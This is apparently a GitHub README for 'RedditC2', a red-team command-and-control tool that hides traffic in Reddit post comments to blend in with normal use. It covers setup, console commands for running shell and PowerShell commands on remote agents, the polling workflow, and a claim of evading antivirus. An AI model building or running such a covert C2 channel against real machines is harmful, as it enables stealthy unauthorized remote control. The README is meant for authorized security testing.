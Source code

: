 <h1 align="center"> RedditC2</h1>
Abusing Reddit API to host the C2 traffic, since most of the blue-team members use Reddit, it might be a great way to make the traffic look legit.
<p align="center">
  <img width="300" height="300" src="https://user-images.githubusercontent.com/37262788/205896739-7feb0cea-cf04-4011-aa6b-66ba5b82b9ba.png">
</p>

---
> :no_entry_sign: [Disclaimer]: Use of this project is for **Educational/ Testing purposes only**. Using it on **unauthorised machines** is **strictly forbidden**. If somebody is found to use it for **illegal/ malicious intent**, author of the repo will **not** be held responsible.
---

## Requirements
Install **PRAW** library in python3:  
```bash
pip3 install praw
```

## Setup
- Create a [Reddit](https://reddit.com) account and create your first [app](https://www.reddit.com/prefs/apps/).
- Copy the **clientid** and **secret key** and paste it to **config.json** (Located in `/RedditC2/Teamserver/`)
- You are ready to go!

## Usage:
To execute the teamserver:  
```
python3 teamserver.py
```

### Setup a subreddit
You must manually create a subreddit (or use an existing one). Then use the following command to use that subreddit in the C2 Server (In this case I have already created a subreddit named *redditc2*):  
```
RedditC2> set subreddit redditc2
[*] Subreddit set to: redditc2
```

### Setup a listener
Note: a listener means a Reddit Post. The agent and the teamserver will communicate with eachother by looking at the comments of the specific reddit post. To create a listener, use the command below ("the value of the listener can be anything unique"):  
```
RedditC2> set listener myFirstListener
```
Once executed, a new Reddit Post will be created with the same post title as the one you set.
**WARNING**: Once a listener is created, the Reddit Post will always stay there, so you don't need to create the same Reddit Post twice.

### Enter the session
The following command will enter the session, so you can start queueing tasks:  
```
RedditC2> use listener myFirstListener
[+] Entered the session
myFirstListener>
```

### Execute commands
For **Windows/Linux agent**: execute command using `run <command>` syntax:
```
myFirstListener> run whoami
[+] Command sent
[+] Received Output:
kleiton0x7e
```
For **Windows agent**: execute powershell command using `powershell <command>` syntax:  
```
myFirstListener> powershell 2+2
[+] Command sent
[+] Received Output:
4
```

### For additional commands, type `help`:  
```
RedditC2> help

set subreddit                 --> Select the subreddit where you will create the listener
set listener [session number] --> Create a post in subreddit where the traffic will ocurr
use listener [session number]  --> Interact With Each Sessions Individually
run [command]                 --> Execute a cmd command
powershell [command]          --> Execute a powershell command
help                          --> Show the help menu
exit                          --> Exit from the session
clear                         --> Clear the screen
```

## Demo
https://user-images.githubusercontent.com/37262788/206015879-589614d5-1a7a-4c21-a342-75bdfc677a61.mp4

## Workflow
### Teamserver  
1. Go to the specific Reddit Post & post a new comment with the command ("in: <command>")
2. Read for new comment which includes the word "out:"
3. If no such comment is found, go back to step 2
4. Parse and read the output
5. Edit the existing comment to "executed", to avoid reexecuting it

### Client  
1. Go to the specific Reddit Post & read the latest comment which includes "in:"
2. If no new comment is detected, go back to step 1
3. Parse the command out of the comment and executes it locally
4. Reply to the comment with the command's output ("out:" <output>)

## Scanning results
Since it is a custom C2 Implant, it doesn't get detected by any AV as the bevahiour is completely legit.
<img width="406" height="553" src="https://user-images.githubusercontent.com/37262788/205900070-783c65b3-4d83-4d5e-82e3-c20571b403e1.png">

## TO-DO
- [X] Teamserver and agent compatible in Windows/Linux  
- [ ] Generate the agents dynamically (from the TeamServer)
- [ ] Add **pyinstaller** library to compile python agent to exe
- [ ] Tab autocompletion

## Credits
Special thanks to @T4TCH3R for working with me and contributing to this project.
